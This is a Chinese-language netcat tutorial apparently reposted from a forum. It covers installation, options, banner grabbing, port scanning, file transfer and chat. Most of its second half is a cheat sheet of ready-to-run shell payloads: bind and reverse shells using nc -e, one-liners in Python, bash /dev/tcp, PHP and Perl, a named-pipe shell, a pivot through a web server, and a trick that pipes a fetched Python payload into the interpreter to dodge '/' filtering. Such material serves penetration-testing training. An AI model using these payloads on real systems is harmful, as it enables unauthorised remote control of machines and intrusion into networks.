 # nc

> 原文：[https://www.zhihuifly.com/t/topic/3450](https://www.zhihuifly.com/t/topic/3450)

# netcat

### 1、安装

```
wget http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz
tar zxvf netcat-0.7.1.tar.gz
cd netcat-0.7.1
./configure
make 
```

![u87.png](img/39bdfc50a20ad42af1edc780a771eac3.png)

windows版本的nc。在禁用-e远程执行选项的情况下编译的版本。

> https://joncraton.org/files/nc111nt.zip

> https://joncraton.org/files/nc111nt_safe.zip

### 2、帮助信息速查表

nc -h 查看帮助信息
-d: 后台模式
-e: 程序重定向
-g<网关>: 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目>: 设置源路由指向器的数量，值为4的倍数。
-i<延迟秒数>: 设置时间间隔，以便传送信息及扫描通信端口
-l: 使用监听模式，管理和控制传入的数据
-n: 直接使用IP地址(不通过域名服务器)
-o<输出文件>: 指定文件名称，把往来传输的数据转换为16进制字符后保存在该文件中
-p<通信端口>: 设置本机使用的通信端口
-r: 随机指定本机与远程主机的通信端口
-s<源地址>: 设置本机送出数据包的IP地址
-u: 使用UDP传输协议
-v: 详细输出
-w<超时秒数>:设置等待连线的时间
-z: 将输入/输出功能关闭，只在扫描通信端口时使用

### 3、使用

*   (1) banner相关信息抓取

> nc -nv 192.168.123.103 22

![u88.png](img/9786b41ca89ce85602a56c1bac1c1e13.png)

*   (2) 连接远程主机

> nc -nvv 192.168.123.103 80

![u89.png](img/46375790c1b33e77517960d5960df5fd.png)

*   (3) 端口扫描
    扫描指定端口

> nc -v 192.168.123.103 80

扫描端口段(速度很慢)

> nc -v -z 192.168.123.103 20-1024

![u90.png](img/24a3a48d9dfb4972bfa60cc0767dda3d.png)

*   (4)监听端口
    监听本地端口，当访问该端口时会输出该信息到命令行

> nc -lp 999

![u91.png](img/8db5053e8dc0ef26cc7edbe23ca197ce.png)

*   (5)文件传输
    传输一个名为test.txt的文本文件

> nc -vn 192.168.1.1 333 < test.txt -q 1

监听，将接受到的数据放到1.txt

> nc -lp 333 > 1.txt

传输完成后，打开1.txt，可看到数据已经传输过来

![a25.png](img/77815db0a0d3a36703e985d2abe8cd99.png)

*   (6)简易聊天

> nc -l -p 888

> nc -vn 192.168.1.1 888

![u94.png](img/081fa384458a2047cd042296be5b0a58.png)

### 4、获取shell

*   (1)正向shell
    客户端连接服务器，客户端获取服务器的shell。(目标机监听，攻击机连接)
    目标机命令：

> nc -lvp 4444 -e /bin/sh 在linux中使用

> nc -lvp 4444 -e c:\windows\system32\cmd.exe 在win中使用

攻击机命令：

> nc 192.168.1.1 4444

![u95.png](img/2a705745103d78d40abbc1dac1197d15.png)
可以看到我们执行ifconfig,变成了目标机的IP,即拿到了目标机的shell

*   (2)反向shell
    客户端连接服务器，服务器获取客户端的shell。通常用在开启防护措施的目标机，如防火墙过滤、端口转发的等。
    (攻击机监听，目标机连接)
    攻击机命令：

> nc -lvp 999

目标机：

> nc 192.168.1.1 999 -e /bin/sh 在linux中使用

> nc 192.168.1.1 999 -e c:\windows\system32\cmd.exe 在win中使用

![u96.png](img/efcf24322e8fa56c08e021dfbf0fdf75.png)

### 5、目标机无nc时获取反向shell

*   (1)python反向shell

```
攻击机：

nc -lvp 2222

目标机： `python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.136.129”,2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’` 
```

![p22.png](img/f4224b2636463f9b6f99a8152c026c04.png)

*   (2)bash反向shell

```
攻击机：
nc -lvp 4444 `目标机：

bash -i >& /dev/tcp/192.168.136.129/4444 0>&1` 
```

![p23.png](img/6b0d2854faa77234a40f78c01fd12d52.png)

*   (3)PHP反向shell

```
攻击机：
nc -lvp 3333 `目标机：

php -r ‘$sock=fsockopen(“192.168.136.129”,3333);exec("/bin/sh -i <&3 >&3 2>&3");’` 
```

![p24.png](img/25fbfdc5922ee3bc2941f8f03c707ef9.png)

*   (4)perl反向shell

攻击机：
nc -lvp 5555

目标机：

```
perl -e 'use Socket;$i="192.168.136.129";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

![p25.png](img/ba7ca77e92cbcc05518a8a12cb3ce9cd.png)

*   (5)内网代理
    环境：kali无法访问数据库服务器，但是可以通过web服务器访问数据库服务器

    kali执行:
    nc -lvp 3333
    数据库执行:
    nc -lvp 3333 -e /bin/sh
    web服务器执行：
    nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"

原理：把web服务器当作中间机，使kali与数据库通信

*   (6)技巧之'/'符号绕过(文件传输与python反向shell结合)(来自"熊猫人"的思路)
    前提:靶机可以执行nc和pyhon
    要想反弹shell成功，很大程度上需要'/'符号，但是有些网站，bp发过去的'/'不起作用。

利用nc的传输文件:
nc -lnvp 5555 < cmd
nc localhost 5555 可查看cmd文件内容
cmd的内容如下

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.136.141",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]) 
```

![i27.png](img/a1df7a99bdc386cc9d81fddf6447c22d.png)

```
攻击机执行：
nc -lnvp 10000 < cmd 如果shell反弹不回去，关掉这部分
nc -lnvp 1234
目标机执行：
nc 192.168.136.129 10000 | python 
```

![i25.png](img/f4876249ff1a83a1cd141d5eb2f62bf7.png)

*   (7)对于不支持nc -e参数，使用以下命令或使用其他版本nc

```
攻击机：
nc -lvp 1024
目标机：
nc.traditional 192.168.37.132 1024 -e /bin/sh 
```

![a37.png](img/7c708d9da9c4571690a8ece0380fb126.png)

*   (8)配合命名管道进行反弹

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.37.132 1024 >/tmp/f 
```

![a38.png](img/e11a7ef60a20f4070c8ac851b487e389.png)

*   (9)使用exec反弹

```
0<&196;exec 196<>/dev/tcp/192.168.37.132/1024; sh <&196 >&196 2>&196 
```

![a39.png](img/99ca8fcb6e52c008e28254bf9868320b.png)